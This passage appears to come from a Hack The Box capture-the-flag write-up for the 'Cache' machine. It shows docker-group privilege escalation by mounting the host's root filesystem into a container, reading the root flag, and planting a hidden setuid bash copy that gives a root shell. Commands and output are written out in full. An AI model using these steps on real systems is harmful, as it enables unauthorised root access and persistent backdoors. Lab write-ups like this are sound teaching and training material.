     
    
    luffy@cache:~$ docker run -v /:/mnt -i -t ubuntu bash
    root@67fd1a66bece:/#
    

Now I can access `root.txt`:

    
    
    root@67fd1a66bece:/mnt/root# cat root.txt
    e9f560a0************************
    

### root Shell

There’s a ton of ways to go from file system access to shell. For example,
make a suid copy of `bash`:

    
    
    root@db2fa4542744:/mnt# cp bin/bash home/luffy/.local/.0xdf
    root@db2fa4542744:/mnt# ls -l home/luffy/.local/.0xdf
    -rwxr-xr-x 1 root root 1113504 May 12 00:46 home/luffy/.local/.0xdf
    root@db2fa4542744:/mnt# chmod 4755 home/luffy/.local/.0xdf
    root@db2fa4542744:/mnt# ls -l home/luffy/.local/.0xdf
    -rwsr-xr-x 1 root root 1113504 May 12 00:46 home/luffy/.local/.0xdf
    

Now exit the container, and run it (with `-p`):

    
    
    luffy@cache:~$ .local/.0xdf -p
    .0xdf-4.4# id
    uid=1001(luffy) gid=1001(luffy) euid=0(root) groups=1001(luffy),999(docker)
    

[](/2020/10/10/htb-cache.html)

